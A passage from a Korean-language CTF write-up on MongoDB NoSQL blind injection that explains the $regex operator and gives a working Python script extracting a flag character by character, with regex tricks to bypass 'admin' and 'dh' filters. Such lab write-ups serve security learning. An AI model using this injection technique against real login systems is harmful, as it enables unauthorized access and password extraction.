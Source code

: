 위 취약점과 함께 연계할 수 있는 표현이다. 정규식을 의미하여 Blind Injection에서 유용하게 사용된다. 가령 `db.user.find({upw: {$regex: "^a"}})` 이런 쿼리를 사용하게 될 경우에 `upw`라는 key의 해당하는 value 중에서 "a"로 시작하는 결과를 가져오게 되는 것이다.


위 두가지와 와일드카드를 이용해서 익스코드를 완성했다.

{% raw %}
```python
import requests, string
HOST = 'http://host1.dreamhack.games:16090'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'
flag = ''
for i in range(32):
	for ch in ALPHANUMERIC:
		response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
		print(response.text)
		if response.text == SUCCESS:
			flag += ch
			break
	print(f'FLAG: DH{{{flag}}}')
```
{% endraw %}

`ad.in`을 통해 `admin`의 필터링을 우회하였고, 플래그 값이 `DH`로 시작하는 것을 알기 때문에 `D.`을 통해 `dh` 필터링을 우회했다. 정규식을 통해 데이터를 한조각씩 전부 찾아냄으로써 플래그를 획득했다.

![image-20220627124922912](../img/image-20220627124922912.png)
